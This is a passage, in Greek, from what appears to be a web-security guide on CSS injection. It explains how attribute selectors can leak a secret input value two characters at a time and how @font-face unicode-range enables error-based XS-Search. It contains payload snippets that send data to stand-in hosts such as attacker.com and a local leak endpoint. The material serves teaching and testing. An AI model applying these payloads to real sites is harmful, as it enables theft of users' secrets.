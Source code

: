 Ο επιτιθέμενος θα ακολουθήσει αυτόν τον βρόχο μέχρι να καταφέρει να διαρρεύσει πλήρως το μυστικό.

Μπορείτε να βρείτε το αρχικό [κώδικα του Pepe Vila για την εκμετάλλευση αυτού εδώ](https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231) ή μπορείτε να βρείτε σχεδόν τον [ίδιο κώδικα αλλά σχολιασμένο εδώ.](./#css-injection)

{% hint style="info" %}
Το σενάριο θα προσπαθήσει να ανακαλύψει 2 χαρακτήρες κάθε φορά (από την αρχή και από το τέλος) επειδή ο επιλογέας γνωρισμάτων επιτρέπει να γίνουν πράγματα όπως:

```css
/* value^=  to match the beggining of the value*/
input[value^="0"]{--s0:url(http://localhost:5001/leak?pre=0)}

/* value$=  to match the ending of the value*/
input[value$="f"]{--e0:url(http://localhost:5001/leak?post=f)}
```

Αυτό επιτρέπει στο script να διαρρεύσει το μυστικό πιο γρήγορα.
{% endhint %}

{% hint style="warning" %}
Μερικές φορές το script **δεν ανιχνεύει σωστά ότι το εντοπισμένο πρόθεμα + επίθεμα είναι ήδη η πλήρης σημαία** και θα συνεχίσει προς τα εμπρός (στο πρόθεμα) και προς τα πίσω (στο επίθεμα) και σε κάποιο σημείο θα κολλήσει.\
Μην ανησυχείτε, απλά ελέγξτε τη **έξοδο** επειδή **μπορείτε να δείτε τη σημαία εκεί**.
{% endhint %}

### Άλλοι επιλέκτες

Άλλοι τρόποι πρόσβασης σε τμήματα DOM με **επιλέκτες CSS**:

* **`.class-to-search:nth-child(2)`**: Αυτό θα αναζητήσει το δεύτερο στοιχείο με την κλάση "class-to-search" στο DOM.
* **Επιλέκτης `:empty`**: Χρησιμοποιείται για παράδειγμα στο [**συγκεκριμένο writeup**](https://github.com/b14d35/CTF-Writeups/tree/master/bi0sCTF%202022/Emo-Locker)**:**

```css
[role^="img"][aria-label="1"]:empty { background-image: url("YOUR_SERVER_URL?1"); }
```

### Βασισμένο σε Σφάλματα XS-Search

**Αναφορά:** [Επίθεση βασισμένη σε CSS: Κατάχρηση του unicode-range του @font-face ](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html), [Απόδειξη Έργου XS-Search βασισμένη σε Σφάλματα από τον @terjanq](https://twitter.com/terjanq/status/1180477124861407234)

Η γενική πρόθεση είναι να **χρησιμοποιήσετε ένα προσαρμοσμένο γραμματοσειρά από έναν ελεγχόμενο τερματικό σημείο** και να διασφαλίσετε ότι **ο κείμενος (σε αυτήν την περίπτωση, 'Α') εμφανίζεται με αυτήν τη γραμματοσειρά μόνο αν το καθορισμένο πόρισμα (`favicon.ico`) δεν μπορεί να φορτωθεί**.

```html
<!DOCTYPE html>
<html>
<head>
<style>
@font-face{
font-family: poc;
src: url(http://attacker.com/?leak);
unicode-range:U+0041;
}

#poc0{
font-family: 'poc';
}

</style>
</head>
<body>
```